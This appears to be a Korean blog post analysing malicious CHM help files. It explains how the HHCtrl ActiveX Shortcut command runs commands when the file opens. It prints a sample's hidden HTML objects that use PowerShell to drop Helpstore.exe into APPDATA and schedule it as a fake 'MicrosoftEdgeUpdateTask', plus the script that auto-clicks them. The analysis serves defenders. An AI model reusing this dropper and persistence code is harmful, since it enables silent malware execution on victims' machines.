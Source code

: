 ```yaml
---
title: '📑 "CHM", Malware Analysis'
date: 2024-12-08 21:00:00 +0900
categories: [Malware Analysis Guide]
tags: [malware_analysis_guide, chm]
render_with_liquid: false
---
```


CHM 파일(Compiled HTML Help File)은 도움말 파일이라고도 불리며, Microsoft에서 개발한 파일 형식으로 HTML 문서와 관련 리소스를 하나의 파일로 압축하여 저장한 파일입니다. 공격자는 CHM 파일이 ActiveX를 지원하는 것을 악용하여, 단순히 CHM 파일을 오픈하는 것만으로 사용자의 간섭없이 악성코드를 실행합니다.


## <mark>0. CHM 파일</mark>

CHM 파일은 일반적으로 윈도우 도움말에 활용되는 파일입니다. 공격자는 해당 부분을 악용하여 마치 정상 파일처럼 위장하여 악성코드를 실행하게 만듭니다.

<img src="../images/2024-12-08-CHM-Malware-Analysis/IMG-chm 분석-20240911174428810-1733664241224-1.png" alt="IMG-chm 분석-20240911174428810" style="zoom:80%;" />

CHM 파일을 실행하게 되면, hh.exe라는 microsoft html help executable program을 사용하여 실행되게 됩니다.

<img src="../images/2024-12-08-CHM-Malware-Analysis/IMG-chm 분석-20240911174711040-1733664261923-5.png" alt="IMG-chm 분석-20240911174711040" style="zoom:80%;" />

<img src="../images/2024-12-08-CHM-Malware-Analysis/IMG-chm 분석-20240911174737407-1733664268659-7.png" alt="IMG-chm 분석-20240911174737407" style="zoom:67%;" />

HTML 문서와 리소스가 하나의 파일로 압축되어 있기 때문에 압축 해제를 통해 파일 내부를 확인할 수 있습니다. 내부에 의심스러운 파일이 존재하는지, 존재하는 HTML 파일 내에 ActiveX 관련 코드가 존재하는지 확인할 필요가 있습니다.

<img src="../images/2024-12-08-CHM-Malware-Analysis/IMG-chm 분석-20240911174511185-1733664278673-9.png" alt="IMG-chm 분석-20240911174511185" style="zoom: 80%;" />



## <mark>1. ActiveX Shortcut</mark>

ActiveX Shortcut Command는 지정된 작업의 Shortcut을 생성합니다. 여기서 중요한 속성은 Item1으로 실행 파일에 대한 경로와 매개변수를 지정할 수 있습니다. 공격자는 해당 속성에 명령어를 삽입하여 악성 행위를 수행합니다.

> 🔗[About ActiveX Shortcut Command](https://documentation.help/HTML-Help-ActiveX/ocx_shortcut.htm)

| **Property**                                                 | **Description**                                              |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| [Button](https://documentation.help/HTML-Help-ActiveX/ocx_pbutton.htm) | Specifies the button style. Optional.                        |
| [Command](https://documentation.help/HTML-Help-ActiveX/ocx_pcommand.htm) | Calls the **Shortcut** command.                              |
| [Font](https://documentation.help/HTML-Help-ActiveX/ocx_pfont.htm) | Specifies the font attributes. Optional.                     |
| [Item1](https://documentation.help/HTML-Help-ActiveX/ocx_pitem.htm) | Specifies the file path to the executable file (.exe) for the program, and any parameters to be sent to the program. These values are delimited by a comma. HTML Help does not support `%WINDIR%` or other system variables in the file path. |
| [Item2](https://documentation.help/HTML-Help-ActiveX/ocx_pitem.htm) | Specifies the message ID of a standard Windows message, a *wPARAM* value, and a *lPARAM* value. These values are delimited by a comma. |
| [Text](https://documentation.help/HTML-Help-ActiveX/ocx_ptext.htm) | Specifies the link text. Optional.                           |



## <mark>2. 악성 CHM 샘플 분석</mark>

### ▪ <u>파일 내부 확인</u>

압축 해제를 통해 CHM 파일 내부를 확인하여 의심스러운 파일이 존재하는지 확인합니다. 샘플에서는 Helpstore.exe 라는 실행 파일이 확인되었습니다.

<img src="../images/2024-12-08-CHM-Malware-Analysis/IMG-chm 분석-20240911174149846-1733664290193-11.png" alt="IMG-chm 분석-20240911174149846" style="zoom:80%;" />

해당 파일을 PPEE, pestudio를 사용해 확인해보니 의심스러운 리소스가 확인되었습니다.

<img src="../images/2024-12-08-CHM-Malware-Analysis/IMG-chm 분석-20240911175412249-1733664311365-13.png" alt="IMG-chm 분석-20240911175412249" style="zoom:67%;" />



### ▪ <u>HTML 파일 확인</u>

CHM 파일을 실행하게 되면, 내부에 존재하는 HTML 파일들이 실행되게 되기 때문에 내부에 악성 스크립트가 존재하는지 확인할 필요가 있습니다. 샘플 내부에는 index.html 파일이 존재했고 코드를 확인해보니 ActiveX ShortCut 명령어가 확인되었습니다.

<img src="../images/2024-12-08-CHM-Malware-Analysis/image-20241208230607334.png" alt="image-20241208230607334" style="zoom:80%;" />

### ▪ <u>ActiveX ShortCut 분석</u>

공격자는 **CLSID_HHCtrl Object = {adb880a6-d8ff-11cf-9377-00aa003b7a11}**를 사용해 HHCtrl Object를 생성하여 ActiveX Shortcut을 사용합니다. Item1 속성을 확인해보니, Helpstore.exe를 드롭하고 schtasks를 사용하여 스케줄러에 등록하는 cmd 명령어가 발견되었습니다.

```html
<OBJECT id =qjswc classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1 style="display:none;">
	<PARAM name = "Command" value = "ShortCut">
	<PARAM name = "Button" value = "Bitmap::shortcut">
	<PARAM name = "Item1" value = ',cmd.exe,/c start /min /b powershell.exe -command "If (Test-Path \"$env:TEMP\") { Get-ChildItem \"$env:TEMP\" -File | Where-Object { $_.Length -eq 1596928 } | ForEach-Object { Copy-Item -Path $_.FullName -Destination \"$env:APPDATA\\Helpstore.exe\" -Force } }"'>
</OBJECT>

<OBJECT id=oheam classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=100 height=100 style="display:none;">
	<PARAM name="Command" value="ShortCut">
	<PARAM name="Button" value="Bitmap::shortcut">
	<PARAM name="Item1" value=',cmd.exe,/c start /min /b powershell.exe -WindowStyle Hidden -Command "schtasks /create /tn \"MicrosoftEdgeUpdateTask\" /tr \"%APPDATA%\Helpstore.exe\" /sc ONCE /st (Get-Date).AddMinutes(1).ToString(\"HH:mm\")"'>
</OBJECT>
```

악성 CHM 파일은 생성된 HHCtrl Object의 Click 메서드를 사용하여, CHM 파일을 실행하게 되면 지정한 명령이 실행되게 코딩되어 있습니다.

```html
<script>
	qjswc.Click();
	oheam.Click();
</script>
```

